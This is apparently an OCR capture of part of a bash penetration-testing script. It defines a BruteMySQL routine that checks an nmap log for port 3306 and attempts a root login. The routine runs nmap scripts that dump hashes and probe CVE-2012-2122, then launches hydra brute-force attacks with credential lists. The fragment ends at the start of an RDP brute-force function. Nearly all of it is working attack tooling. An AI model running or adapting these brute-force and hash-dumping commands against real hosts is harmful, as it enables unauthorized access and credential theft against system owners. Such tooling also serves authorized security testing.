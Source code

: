   #  Port 3306 (MySQL)
  BruteMySQL(){
     # - Name:
     # - Version:
     if grep -q 3306/tcp nmap.log; then
       echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 3306(mysql) is open. Starting bruteforce...\n"
       sleep 1
       mysql --host=${targetIP} -u root -p
       nmap -sV -Pn -vv -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 ${targetIP} -p 3306

       hydra -C $mysql_up ${targetIP} mysql -e ns -o Output/${targetIP}/mysql_${targetIP}.txt -I -V -t $thread
       hydra -L $sql_u -P $sql_p $TARGET mysql -e ns -o Output/${targetIP}/mysql_1_${targetIP}.txt -I -V -t $thread
       Finished_Brute "${targetIP}"
     else
    echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 3306(mysql) is not open. Skipping to next port..."
  fi

   }
  BruteMySQL

  ### Port 3339 - Oracle web interface
  # - Basic info about web service (apache, nginx, IIS)
  # - Server:
  # - Scripting language:
  # - Apache Modules:
  # - IP-address:
  # - Domain-name address:

  #  Port 3389 (RDP) Remote Desktop
  BruteRDP(){
     # Test logging in to see what OS is running
     # rdesktop -u guest -p guest ${targetIP} -g 94%
